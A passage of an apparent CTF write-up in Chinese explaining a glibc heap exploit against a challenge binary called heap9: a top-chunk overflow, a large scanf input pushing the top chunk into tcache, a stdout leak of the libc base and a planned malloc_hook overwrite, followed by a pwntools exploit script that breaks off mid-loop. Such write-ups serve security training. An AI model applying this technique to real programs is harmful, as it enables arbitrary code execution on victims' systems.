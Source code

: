 这里不太方便的是全局只有一个buf用来存储chunk，后面新的会覆盖原来的。我们用Edit溢出到top_chunk修改其size，最后释放一个较大的块得到一个tcache，再往后我们没办法通过Edit编辑tcache，因为我们分配的这个较大块已经是另一块map的heap，无法前溢。因此我们要想办法通过不释放一个大于top_chunk_size的情况下让top_chunk掉下来。

这里用scanf的时候输入大量数据，scanf内部会malloc一块区域存储数据，导致top_chunk进入了tcache，进而我们可以Edit编辑tcache。

改fd到bss的stdout的位置，再两次分配到stdout泄露地址。

同样的方式改malloc_hook到one_gadget

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./heap9')
libc_offset = 0x3c4b20
gadgets = [0x4f2c5,0x4f322,0x10a38c]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./heap9')

else:
    libc = ELF('./libc-2.27.so')
    p = remote('f.buuoj.cn',20173)

def Add(size,content):
    p.recvuntil('> ')
    p.sendline('M')
    p.recvuntil("size > ")
    p.sendline(str(size))
    p.recvuntil("content > ")
    p.send(content)

def Edit(size,content):
    p.recvuntil('> ')
    p.sendline('E')
    p.recvuntil("size > ")
    p.sendline(str(size))
    p.recvuntil("content > ")
    p.send(content)

def exp():
    #hajack struct
    stdout_addr = 0x601020
    for i in range(11):
        Add(0x108,'a')
    Add(0xa8,'0')
    Add(0x10,'a')
    Edit(0x20,'a'*0x10+p64(0)+p64(0x131))
    p.recvuntil('> ')
    p.sendline('M')
    p.recvuntil("size > ")
    p.sendline("1"*0xe00)
    Edit(0x28,'a'*0x10+p64(0)+p64(0x111)+p64(stdout_addr))
    Add(0x108,'a')

    Add(0x108,'\x60')
    Add(0x108,p64(0xfbad1800)+p64(0)*3+'\x00')
    p.recvn(0x20)
    libc_base = u64(p.recv(8)) - (0x7fa7e621d780-0x7fa7e6039000)
    log.success("libc base => " + hex(libc_base))
    #
    for i in range(27):
```